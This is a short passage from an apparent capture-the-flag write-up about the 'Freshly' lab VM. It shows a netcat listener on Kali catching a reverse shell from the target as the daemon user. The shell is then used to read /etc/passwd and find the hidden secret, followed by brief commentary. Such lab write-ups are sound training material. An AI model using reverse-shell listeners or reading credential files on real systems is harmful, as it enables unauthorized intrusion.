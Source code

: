 ```sourceCode
root@kali:/usr/share/webshells/php# nc -lvnp 1337
listening on [any] 1337 ...
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.103] 43875
Linux Freshly 3.13.0-45-generic #74-Ubuntu SMP Tue Jan 13 19:37:48 UTC 2015 i686 i686 i686 GNU/Linux
 19:36:34 up  5:45,  0 users,  load average: 0.08, 0.03, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ cd /etc
$ cat passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
messagebus:x:102:105::/var/run/dbus:/bin/false
user:x:1000:1000:user,,,:/home/user:/bin/bash
mysql:x:103:111:MySQL Server,,,:/nonexistent:/bin/false
candycane:x:1001:1001::/home/candycane:
# YOU STOLE MY SECRET FILE!
# SECRET = "NOBODY EVER GOES IN, AND NOBODY EVER COMES OUT!"
```

I had to poke around the file system a bit to find this, but `/etc/passwd` is usually a _go-to_ file if you get access to a system. Otherwise I'd still be looking for the file now :)

So that's one way to do it.

This seems to be the most direct route in. It might be worth exploring the vulnerabilities on the plugins, but it's late now, so I'll save that for another time.
